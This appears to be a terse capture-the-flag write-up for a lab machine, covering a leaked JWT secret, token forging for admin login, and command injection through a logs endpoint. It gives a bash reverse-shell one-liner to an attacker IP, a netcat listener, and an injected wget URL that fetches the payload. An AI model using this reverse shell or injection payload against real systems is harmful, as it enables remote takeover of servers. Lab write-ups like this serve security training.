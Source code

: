 -TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret

And the more important.
href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">secure</a>! this has everything to make ur project secure.</div>
# Create the token
![](https://i.imgur.com/QimXNtl.png)
you have to change the name and set the secret in `VERIFY SIGNATURE`.

# Login as admin
![](https://i.imgur.com/7C8k4a0.png)
... where is my fucking FLag!!!

# In the git directory
![](https://i.imgur.com/K99prQQ.png)
I have something to do with logs, but I don't know how to add a parameter.
https://www.codegrepper.com/code-examples/javascript/req+query+params+express
Now I know lol.

# Add the parameter.
![](https://i.imgur.com/IIwDJqM.png)

# Exploit
## create the payload
`rs.sh`
```sh
bash -i >& /dev/tcp/10.10.15.22/4846 0>&1
```
## Listen 
```sh
nc -lvp 4846
```
## Create a http server to download the payload.
```sh
python2.7 -m SimpleHTTPServer
```
## Download the payload
http://secret.htb:3000/api/logs?file=;wget http://10.10.15.22:8000/rs.sh
![](https://i.imgur.com/ntjMOo3.png)
![](https://i.imgur.com/HDHLiCp.png)
Yeah!
